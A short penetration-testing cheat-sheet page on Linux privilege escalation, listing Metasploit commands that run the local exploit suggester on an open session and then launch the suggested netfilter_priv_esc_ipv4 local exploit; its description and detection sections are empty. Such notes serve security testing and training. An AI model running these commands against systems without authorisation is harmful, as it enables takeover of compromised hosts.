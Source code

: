 # Privilege Escalation

## **Exploit Description:**



## Command Syntax
```

-[Local Exploit Suggester (Metasploit)]-

use post/multi/recon/local_exploit_suggester

set SESSION <SESSION-ID>

RUN

say /exploit/linux/local/netfilter_priv_esc_ipv4 is suggested, you can

use /exploit/linux/local/netfilter_priv_esc_ipv4

show options

exploit

-[]-


```

## Detection Techniques
```

```